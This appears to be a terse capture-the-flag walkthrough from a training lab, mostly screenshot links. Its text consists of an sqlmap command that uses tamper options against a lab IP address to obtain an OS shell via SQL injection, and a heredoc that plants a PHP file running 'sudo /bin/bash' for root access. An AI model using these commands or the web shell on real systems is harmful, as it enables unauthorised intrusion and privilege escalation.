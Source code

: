 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cc9c4810-ef5b-4986-9878-d959e54f6324)

`sqlmap -u "http://62.173.140.174:18600/?id=" --batch --level=2 --risk=3 --random-agent -v --tamper=space2comment --all --os-shell`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c8ee09e9-ef49-4861-8d05-001133ddea0b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/83464127-58a8-4db0-aaaf-a091255019fc)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c6218487-a3e1-4ee2-a763-5f8b114ef886)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c211f186-dc12-41e9-bd7e-f94ca6833fdd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/487ee078-3699-461d-993a-f1b333a3b8fe)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9964bc32-87e8-4a3e-b478-1376c24c8ff0)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b19e2c6b-ba92-4b8b-acec-ece0e521e0b1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5b78ce27-d635-4e95-85d4-13c5a164b579)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1dbd4bcd-e092-4cce-8b48-fddf915b8cd0)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b60015b5-d6fb-404e-9fe0-bbbddb287466)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ea5169a9-7607-4fd4-a688-016bb440097e)

`/bin/bash`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5dcb4387-1b2c-4791-af60-c39881da406a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/03f312e8-b36a-4732-9b5f-d5d20ac80512)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4c4f25fe-e7fc-443b-97cd-cda442672186)

```
cat >> root3.php<< EOF
<?php
echo "<br>root: ".(exec("sudo /bin/bash"));
?>
EOF
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4c0f083b-bf4a-43cf-bdb2-2751b395ae0d)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2f1a0b84-c689-43cc-9b59-3713767b1e71)













